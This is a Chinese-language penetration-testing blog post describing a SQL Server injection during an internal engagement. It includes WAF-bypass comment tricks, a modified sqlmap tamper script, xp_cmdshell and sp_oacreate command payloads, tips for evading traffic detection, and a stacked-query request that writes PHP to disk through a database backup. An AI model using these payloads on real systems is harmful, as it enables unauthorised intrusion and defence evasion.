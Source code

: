 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。
title: SQL Server DBA WriteFile
url: /archivers/2020-01-01/3
---
```


## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：

![2020-01-03-13-13-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ff14d4d92d1d2c87226c80bf934d541f.png)

参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`

![2020-01-03-13-13-28](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6698199e49414f5cdf5e0cb74725decb.png)

## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：

![2020-01-03-13-13-37](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b5b958529f18b8b570f16eca2cd1ac03.png)

核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：

![2020-01-03-13-13-49](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/cb7b577625d7a6106e39687558cdc6c7.png)

接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。

![2020-01-03-13-14-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/1ea40c2f77061bc94c939aaf8a1c01a5.png)

## 0x04 xp_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！

![2020-01-03-13-14-22](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/fc6bd35eb07d11206d2bcf9ccb701553.png)

这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。

![2020-01-03-13-14-38](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/259de32b7fe3faac8fa6bff186660e07.png)

到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

